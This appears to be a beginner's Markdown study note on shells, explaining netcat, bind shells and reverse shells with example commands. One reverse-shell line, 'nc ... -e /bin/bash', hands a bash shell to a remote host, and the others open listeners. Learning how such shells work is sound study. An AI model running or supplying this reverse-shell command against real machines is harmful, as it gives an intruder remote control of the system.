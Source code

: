 ```yaml
---
tags:
  - shell
  - RevShell
  - netcat
  - nc
---
```

# Shells and Tools

***The shell is the piece of software that translates the processes into the system by just a simple command system. The shells are like: `PowerShell` and `Bash`***

## Tools can be used to make shells

The Shells is a great utility on the system, but if a hacker owned one on your system you would be in a great danger.

**Owning** a shell on a machine to remotely execute code with high privileges might be if it isn't the highest thing a hacker could make on a machine, it can be done by tools opens the connection to a command executing shell on the machine.


### `Netcat`

`Netcat` is the classic one to create shells. The shells can be created by executing a command on both sides to establish the connection.

Let's say i want to connect to a shell on a machine the IP of it is `10.0.0.1`, first i must make it opens a port to send my request and even make the machine wait my request on, which can be done by executing this command on the other side machine -which is called a listener- :
```bash
nc -lvnp 69
```

Now I must make a request from my side to connect to this machine on the waiting port:
```bash
nc 10.0.0.1 69
```
and it's done

### Other tools

There are other tools like `metasploit` and `msvenom` which you can make connection with but with different methods.

___
# Shell Types

***There are mainly two types of shells:***

## Bind Shell

**The bind shell** is to put a listener on the machine, opening a port for you to make the request from your side and connect.

Putting the listener:
```bash
nc -lvnp 69
```

Connecting the open port:
```bash
nc 10.0.0.1 69
```
and it's done

## Reverse Shell

The reverse shell is totally the opposite of the bind shell, your side would be the listener side and the other side would be one who is making the request to give you the connection!!

opening a listener on your side: 
```bash
nc -lvnp 69
```

Now make the other side give you the connection:
```bash
nc 10.0.0.1 69 -e "/bin/bash"
```

and it's done

##### There also the interactive and non-interactive shells and the difference between them is that the interactive can take user inputs the non is not, and most of the bind and reverse shells are non-interactive

---
